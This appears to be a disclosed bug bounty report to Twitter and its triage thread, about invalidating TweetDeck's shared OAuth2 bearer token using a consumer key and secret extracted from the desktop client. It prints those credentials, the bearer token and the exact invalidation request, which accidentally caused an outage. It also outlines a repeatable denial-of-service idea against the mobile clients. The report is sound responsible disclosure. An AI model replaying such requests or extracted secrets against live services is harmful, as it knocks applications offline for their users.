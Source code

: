 [Urgent] Invalidating OAuth2 Bearer token makes TweetDeck unavailable

    Share:

Timeline
filedescriptor
submitted a report to Twitter.
Mar 4th (6 years ago)
First of all, really sorry for the unintentional DoS :( I was testing it with a fresh bearer token but copied the production one accidentally.
Details
I've noticed that TweetDeck is using OAuth2 to issue requests (Authorization Bearer token):
Code 727 BytesWrap lines Copy Download
GET https://api.twitter.com/1.1/help/settings.json?settings_version= HTTP/1.1
Host: api.twitter.com
Connection: keep-alive
Authorization: Bearer AAAAAAAAAAAAAAAAAAAAAF7aAAAAAAAAi95Q2QkUrMfOxflMJIWoZ3JcvJw%3DOLBx5qSvcDbL37ad9Moq9MtZN2yYQ0r6zKtIupfa5AEbVAoZnM
Origin: https://tweetdeck.twitter.com
X-Csrf-Token: 2170b7f455955368495bc191ed67c892
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36
Accept: text/plain, */*; q=0.01
X-Twitter-Auth-Type: OAuth2Session
X-Twitter-Client-Version: Twitter-TweetDeck-blackbird-chrome/4.0.170302174617 web/
Referer: https://tweetdeck.twitter.com/
Accept-Encoding: gzip, deflate, sdch, br
Accept-Language: en-US,en;q=0.8
According to the documentation, with a valid consumer key and consumer secret pair, one can generate or invalidate existing bearer token: https://dev.twitter.com/oauth/reference/post/oauth2/invalidate/token
Now, it can be guessed that the hardcoded bearer token used in TweetDeck belongs to the TweetDeck client. The consumer key and consumer secret can be extracted from the desktop application:
Code 99 BytesWrap lines Copy Download
Consumer key:    yT577ApRtZw51q4NPMPPOQ
Consumer secret: 3neq3XqN5fO3obqwZoajavGFCUrC42ZfbrLXy5sCv8
Apparently, anyone can invalidate the bearer token while issuing token invalidation request:
Code 402 BytesWrap lines Copy Download
POST https://api.twitter.com/oauth2/invalidate_token HTTP/1.1
Authorization: Basic eVQ1NzdBcFJ0Wnc1MXE0TlBNUFBPUTozbmVxM1hxTjVmTzNvYnF3Wm9hamF2R0ZDVXJDNDJaZmJyTFh5NXNDdjg=
Host: api.twitter.com
Content-Length: 125
Content-Type: application/x-www-form-urlencoded;charset=UTF-8

access_token=AAAAAAAAAAAAAAAAAAAAAF7aAAAAAAAAi95Q2QkUrMfOxflMJIWoZ3JcvJw%3DOLBx5qSvcDbL37ad9Moq9MtZN2yYQ0r6zKtIupfa5AEbVAoZnM
And suddenly all the requests on TweetDeck result in {"errors":[{"code":89,"message":"Invalid or expired token."}]}.
andrewsorensen
 changed the status to Triaged. 
Mar 4th (6 years ago)
Thank you for your report. We believe it may be a valid security issue and will investigate it further. It could take some time to find and update the root cause for an issue, so we thank you for your patience.
Thank you for helping keep Twitter secure!
filedescriptor
 posted a comment. 
Updated Mar 4th (6 years ago)
I suspect other services could potential have the same issues. For example mobile.twitter.com is also using the same way to establish API connections. Fix-wise I wonder if forbidding bearer token invalidation on official clients is enough.
andrewsorensen
 posted a comment. 
Mar 4th (6 years ago)
Hi filedescriptor,
Thanks for the information. While we investigate this issue and fix the bearer token for tweetdeck.twitter.com please don't try to revoke any other OAuth bearer tokens until this report has been closed out. We'll take the full impact of this issue into consideration when we award a bounty.
Thanks for thinking of Twitter security!
filedescriptor
 posted a comment. 
Updated Mar 4th (6 years ago)
I stopped all my testings immediately after I realized the consequence so yeah I won't.
andrewsorensen
 posted a comment. 
Mar 4th (6 years ago)
Thanks. We've restored TweetDeck but are still looking into the issue of being able to invalidate the bearer token.
filedescriptor
 posted a comment. 
Updated Mar 6th (6 years ago)
I also noticed mobile Twitter clients depend on a similar way (for the xAuth part) but they generate a new bearer token every time.
According to the documentation: https://dev.twitter.com/oauth/reference/post/oauth2/token

    Only one bearer token may exist outstanding for an application, and repeated requests to this method will yield the same already-existent token until it has been invalidated.

So technically they are always the same until being invalidated (and that explains why I accidentally DoS'd TweetDeck despite using a fresh token which was actually the same as the production one)
Moving on:

    [..] If attempted too frequently, requests will be rejected with a HTTP 403 with code 99

So an attacker could in theory keep creating and invalidating the bearer token for the mobile Twitter clients and achieve DoS there.
PS. Of course I didn't try it.
Twitter  rewarded filedescriptor with a $5,040 bounty. 
Mar 17th (6 years ago)
Thanks again. As mentioned we’ll keep you updated as we investigate further. As a reminder, please remember to keep the details of this report private until we have fully investigated and addressed the issue.
andrewsorensen
 closed the report and changed the status to Resolved. 
Jun 28th (5 years ago)
We consider this issue to be fixed now. Can you please confirm?
Thank you for helping keep Twitter secure!
filedescriptor
 posted a comment. 
Updated Jun 28th (5 years ago)
I'm not sure how to retest it as it might make certain services unavailable again. How do you think I should proceed?
filedescriptor
 posted a comment. 
Jul 4th (5 years ago)
Pinging again
andrewsorensen
 posted a comment. 
Jul 5th (5 years ago)
Understood. We believe this issue is fixed so testing should not have any impact. However, testing with a test application (where possible) instead of a production application would be preferred.
filedescriptor
 posted a comment. 
Updated Jul 5th (5 years ago)
I believe the consumer secret for TweetDeck has been rotated, and other official clients have rejected invalidation requests: {"errors":[{"code":348,"message":"Client application is not permitted to to invalidate this token."}]}. I think it's fixed.
filedescriptor
 requested to disclose this report. 
Jul 5th (5 years ago)
swilson
Twitter staff  posted a comment. 
Jul 7th (5 years ago)
@filedescriptor would like to request we hold off publishing for now. As a part of the clean up after the issue was discovered, we found the scope is larger than just TD. I want to wait and get the remaining updated and then give the all clear to publish if thats ok?
swilson
Twitter staff  reopened this report. 
Jul 7th (5 years ago)
Reopening report as scope is more than just TD. Also re-opened JIRA ticket.
filedescriptor
 posted a comment. 
Jul 7th (5 years ago)
No problem at all
andrewsorensen
 closed the report and changed the status to Resolved. 
Apr 5th (4 years ago)
We consider this issue to be fixed now. Our documentation now clearly calls out the repercussions of having OAuth credentials that are public and how that allows requests to be made on behalf of the application.
Thank you for helping keep Twitter secure!
acamacho
Twitter staff  posted a comment. 
Apr 8th (4 years ago)
@filedescriptor just wanted to checkin with you about the disclosure, did you want to proceed or cancel out the disclosure request? 
filedescriptor
 requested to disclose this report. 
Apr 16th (4 years ago)
Let's disclose it!
acamacho
Twitter staff  agreed to disclose this report. 
Apr 25th (4 years ago)
 This report has been disclosed. 
